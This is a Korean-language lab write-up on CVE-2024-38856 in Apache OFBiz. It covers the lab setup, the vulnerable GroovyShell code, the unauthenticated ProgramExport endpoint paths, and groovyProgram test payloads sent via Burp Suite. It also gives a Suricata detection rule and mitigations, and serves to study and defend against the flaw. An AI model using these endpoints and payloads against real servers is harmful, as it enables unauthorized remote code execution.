



# cve-2024-38856
{: .no_toc }

Apache OFBiz Incorrect Authorization 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Apache OFBiz에서 특정 화면 정의(screen definitions)파일이 사용자의 권한을 명시적으로 검증하지 않고, 엔드포인트 설정에 의존하여 접근을 허용해 화면 렌더링 코드를 실행할 수 있는 취약점

## 1.2 취약 대상
Apache OFBiz 버전 18.12.14 이전

## 1.3 공격 원리
- Apache OFBiz의 웹 애플리케이션에서 엔드포인트를 스캔하여 취약한 엔드포인트 식별
- 취약한 엔드포인트를 통해 접근한 공격자는 관련된 화면 정의 파일(ProgramExport View)에 접근
- 화면 정의 파일에 포함된 화면 렌더링 코드를 악용하여 임의의 악성 코드를 실행


---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.56.1)
- Attacker: Windows10 (IP: 172.23.66.206) <br>

Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
apt-get update
apt-get upgrade
sudo apt install openjdk-11-jdk
sudo apt install gradle ## gradle이란?

cd /usr/local/src
wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.04.zip
unzip apache-ofbiz-18.12.04.zip

## Apache OFBiz 18.12.04 는 Gradle 5.0.0 이상 버전을 사용
cd /usr/local/src/apache-ofbiz-18.12.04/gradle/wrapper
wget https://raw.githubusercontent.com/gradle/gradle/v5.0.0/gradle/wrapper/gradle-wrapper.properties
wget https://github.com/gradle/gradle/raw/v5.0.0/gradle/wrapper/gradle-wrapper.jar

## 주의 사항 : localhost 가 아닌, 가상환경에서 서버 구동 시, 해당 가상환경 ip를 설정에 등록
vi /usr/local/src/apache-ofbiz-18.12.04/framework/security/config/security.properties
## 옵션 변경
protect-view.preprocessor=
## 활성화 옵션
default.error.response.view=none:
## 아래에 추가
host-headers-allowed=localhost,192.168.56.1
block-external-host-requests=false
allow-program-export=true

## Apache OFBiz 18.12.04 실행
cd /usr/local/src/apache-ofbiz-18.12.04
./gradlew cleanAll loadAll
./gradlew ofbiz 

## ----- HomePage ----- ##
접속 : https://ip:8443/myportal/control/main
id : admin
password : ofbiz
```

<br>구현 된 홈페이지 (192.168.56.1:8443)



---

## 1.5 주요 내용
- CVE-2024-38856의 핵심은 ProgramExport 엔드포인트가 인증 없이 접근 가능한 취약점
- 이 엔드포인트는 외부에서 전달된 데이터를 Groovy Script로 실행할 수 있는 구조를 가지고 있어, 공격자가 특정 파라미터를 통해 코드 실행

{: .note-title }
> **ProgramExport**는 Apache OFBiz Framework에서 사용하는 Web Tools 중 하나로, 특정 기능이나 데이터를 처리 및 출력하는 데 사용한다. 이 엔드포인트는 주로 시스템 관리자가 다양한 데이터를 내보내거나 특정 프로그램을 통해 데이터 처리를 수행할 때 사용

<br> 

- 아래 코드는 groovyProgram이라는 HTTP 요청 파라미터에 들어온 값을 GroovyShell로 실행하는 코드
- 입력된 값에 대한 검증이 없어 공격자가 악성 코드를 groovyProgram 파라미터에 넣으면 해당 코드가 서버에서 실행되어 시스템 명령어를 실행하거나 데이터를 유출

```java
String groovyScript = request.getParameter("groovyProgram");
GroovyShell shell = new GroovyShell();
shell.evaluate(groovyScript);
```


---

## 1.6 공격 재현
Tool : Burp Suite v2024

## ProgramExport 엔드포인트 URL 접근
{: .no_toc }

Apache OFBiz에서 악용될 수 있는 URL은 TestService, view, showDateTime, main, forgotPassword
- example1 : https://192.168.56.1:8443/webtools/control/TestService/ProgramExport
- example2 : https://192.168.56.1:8443/webtools/control/view/ProgramExport
- example3 : https://192.168.56.1:8443/webtools/control/showDateTime/ProgramExport
- example4 : https://192.168.56.1:8443/webtools/control/main/ProgramExport
- example5 : https://192.168.56.1:8443/webtools/control/forgotPassword/ProgramExport




## Burp Suite 사용하여 groovyProgram에 파라미터값 전달
{: .no_toc }

- Burp Suite를 활용하여 payload에 groovyProgram 파라미터 값을 삽입 후 테스트
- groovyProgram=throw new Exception('CVE-2024-38856 TEST by Bite98');

 <br>


테스트 확인 후, 시스템 정보()를 출력하는 파라미터값을 넣어 공격 진행
- groovyProgram=throw new Exception("Thread State: " + Thread.currentThread().getState());
- groovyProgram=throw%20new%20Exception%28%22Thread%20State%3A%20%22%20%2B%20Thread.currentThread%28%29.getState%28%29%29%3B

{: .note-title }
> **Thread.currentThread().getState()** 함수는 현재 스레드의 상태를 확인하여 예외를 통해 정보를 반환



---

## 대응 패턴 적용
{: .no_toc }

- 신규 ET 패턴 1건

```c
alert http any any -> $HOME_NET any (
    msg:"ET WEB_SPECIFIC_APPS Apache OFBiz Pre-Auth Remote Code Execution Attempt (CVE-2024-38856)";
    flow:established,to_server;
    http.method;
    content:"POST";
    http.uri;
    content:"/webtools/control/";
    fast_pattern;
    startswith;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/R";
    content:"ProgramExport";
    endswith;
    http.request_body;
    content:"groovyProgram";
    startswith;
    reference:url,blog.sonicwall.com/en-us/2024/08/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability/;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:2054947;
    rev:1;
    metadata:affected_product Apache_OFBiz, attack_target Server, tls_state TLSDecrypt, created_at 2024_08_06, cve CVE_2024_38856, deployment Perimeter, deployment Internal, deployment SSLDecrypt, performance_impact Low, confidence High, signature_severity Major, updated_at 2024_08_06;
    target:dest_ip;
)
```

---

## 1.7 대응 방안
- Apache OFBiz 버전 18.12.14 이상으로 업데이트
- ProgramExport 엔드포인트 인증 설정
- groovyProgram과 같은 파라미터가 코드 실행에 사용되지 않도록 검증 로직 추가

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-38856
[Apache]: https://ofbiz.apache.org/security.html
